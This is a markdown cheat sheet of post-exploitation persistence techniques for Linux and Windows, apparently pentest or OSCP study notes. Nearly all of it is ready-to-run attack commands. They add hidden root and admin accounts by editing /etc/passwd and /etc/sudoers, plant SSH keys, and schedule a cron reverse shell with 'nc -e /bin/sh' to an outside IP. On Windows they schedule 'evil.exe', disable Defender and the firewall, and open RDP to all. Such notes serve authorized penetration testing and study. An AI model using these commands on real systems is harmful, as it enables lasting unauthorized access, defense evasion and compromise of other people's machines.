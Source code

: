 # Persistence on Linux

## Create a new user

```
adduser pelle
adduser pelle sudo
```

Or:
```
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

On older machine:
```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

Or directly edit `/etc/passwd`:
```
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd
```

## Give root rights

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

## Crack the password of existing user

Get the `/etc/shadow`

## SSH Key

```
ssh-keygen -t rsa -C "your_email@example.com"
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
ssh -i nameOfMyKey kim@192.168.1.103
```

## Cronjob

* Check if cronjob is active
```
service crond status
pgrep cron
```

* Start cronjob
```
service crond status
/etc/init.d/cron start
```

* Create a job
```
crontab -e
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
/10 * * * * pelle nc -e /bin/sh 192.168.1.21 5556
```

## Backdoor in webserver

Put backdoor on webserver, either in separate file or in hidden in another file.

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

# Persistence on Windows

## Create a new user
```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Script to add a new user:
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

## Scheduled task
```
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Disable firewall/defender

```
sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
```

## Enable RDP for all

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

```
netsh firewall set service RemoteDesktop enable
```

```
sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"
```

```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=udp
```

# References

* https://ired.team/offensive-security-experiments/offensive-security-cheetsheets#post-exploitation-and-maintaining-access
* https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html
* https://sushant747.gitbooks.io/total-oscp-guide/persistence.html
* https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-post-exploitation.html